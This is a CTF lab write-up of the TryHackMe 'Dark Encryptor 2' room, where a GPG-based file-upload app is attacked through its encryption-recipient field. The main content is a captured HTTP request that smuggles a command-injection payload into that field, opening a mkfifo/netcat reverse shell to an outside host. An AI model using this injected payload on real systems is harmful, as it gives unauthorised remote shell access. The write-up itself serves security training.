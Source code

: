 ```yaml
---
title: TryHackMe Dark Encryptor 2 Hackfinity Battle Write-Up Walk Through
date: 2025-03-25 06:00:00 +0200
categories: [TryHackMe, CTF,Hackfinity Battle, TryHackMe Write Up]
tags: [file-upload, command-injection, gpg, hacking, Hackfinity, ctf]
description: "After pivoting through their internal network, we have found yet another encryption tool. Can you hack into the server and extract the secret data? Our intel tells us that the app is using the gpg tool. "
comments: false
media_subpath: /assets/img/
image:
  path: tryhackme-dark-encryptor-2.png
  alt: TryHackMe Dark Encryptor 2 Hackfinity Battle
---
```


# Exploring TryHackMe's Dark Encryptor 2: A File Upload Adventure

Recently, I tackled the "Dark Encryptor 2" room on TryHackMe, and it was a blast! This challenge dives into a file upload scenario where you’re tasked with outsmarting an application that encrypts your files using GPG. What starts as a simple upload turns into a hunt for a cleverly hidden vulnerability—one that ties back to lessons from its predecessor room.

**[You can follow YouTube video walk through here](https://youtu.be/wm6yWq3IHl4)**

## The Setup
The room presents an app with a file upload feature, complete with an extension filter and an encryption type dropdown. Upload a file like `test.txt`, and you get back an encrypted version (e.g., `random_name.gpg`). The catch? There’s a way to make the app spill its secrets—specifically, the flag—by exploiting how it handles your input.

## The Twist

You can also get reverse shell, bellow Burp suite setup

```console
POST / HTTP/1.1
Host: 10.10.205.208:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------8260033711009175319198161817
Content-Length: 422
Origin: http://10.10.205.208:5000
Connection: keep-alive
Referer: http://10.10.205.208:5000/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------8260033711009175319198161817
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

test

-----------------------------8260033711009175319198161817
Content-Disposition: form-data; name="recipient"


Cipher ;$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.248.189 9001 >/tmp/f)
-----------------------------8260033711009175319198161817--

```
# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/wm6yWq3IHl4)** on my YouTube channel for step-by-step guidance:

**[You can follow YouTube video walk through here](https://youtu.be/wm6yWq3IHl4)**

<img src="tryhackme-dark-encryptor-2-youtube-video.png"  alt="TryHackMe Dark Encryptor 2 YouTube Video Walk through" >



